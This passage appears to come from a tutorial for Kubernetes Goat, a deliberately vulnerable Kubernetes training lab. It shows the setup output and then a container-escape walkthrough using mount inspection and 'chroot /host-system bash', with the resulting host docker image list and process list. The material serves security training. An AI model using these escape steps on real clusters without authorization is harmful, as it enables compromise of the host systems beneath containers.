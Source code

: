 ```console
kubectl setup looks good.
Creating port forward for all the Kubernetes Goat resources to locally. We will be using 1230 to 1236 ports locally!
Visit http://127.0.0.1:1234 to get started with your Kubernetes Goat hacking!
```

You can now navigate to http://127.0.0.1:1234/ to access Kubernetes Goat.

### Running your first exploit

Let’s run the “Container escape to the host system” exploit, go to http://127.0.0.1:1233/ and enter the following commands:

```shell
mount
```

```console
...
sysfs on /host-system/sys type sysfs (ro,nosuid,nodev,noexec,relatime)
...
```

We can see that the sysfs is mounted on the host system. Let’s try to access the host system:

```shell
ls /host-system/
```

```console
CHANGELOG  Release.key  bin  boot  data  dev  docker.key  etc  home  kic.txt  kind  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  version.json
```

If this works we can try an escape to the host system:

```shell
chroot /host-system bash
docker images
ps aux
```

```console
root@system-monitor-deployment-5466d8b787-kscdh:/# chroot /host-system bash
root@system-monitor-deployment-5466d8b787-kscdh:/# docker images
REPOSITORY                                           TAG       IMAGE ID       CREATED         SIZE
nginx                                                1.25.5    2ac752d7aeb1   5 days ago      188MB
madhuakula/k8s-goat-info-app                         latest    57e24cd7eb27   4 months ago    66.3MB
madhuakula/k8s-goat-hunger-check                     latest    8a648053c00f   4 months ago    142MB
madhuakula/k8s-goat-hidden-in-layers                 latest    285cbdc185ff   4 months ago    7.34MB
madhuakula/k8s-goat-health-check                     latest    550e0029f6bd   4 months ago    952MB
madhuakula/k8s-goat-home                             latest    be8461449c23   4 months ago    43.4MB
madhuakula/k8s-goat-cache-store                      latest    aa2bf2205b2c   4 months ago    27.4MB
madhuakula/k8s-goat-batch-check                      latest    a79437e72bc1   4 months ago    148MB
madhuakula/k8s-goat-system-monitor                   latest    194bbb7b931a   4 months ago    138MB
...
root@system-monitor-deployment-5466d8b787-kscdh:/# ps aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.5  0.0  22224 14592 ?        Ss   15:31   0:02 /sbin/init
root         108  0.0  0.0  23704 11520 ?        S<s  15:31   0:00 /lib/systemd/systemd-journald
root         161  0.0  0.0  15420  8960 ?        Ss   15:31   0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
root         600  0.6  0.4 1654636 67068 ?       Ssl  15:31   0:03 /usr/bin/containerd
...
```
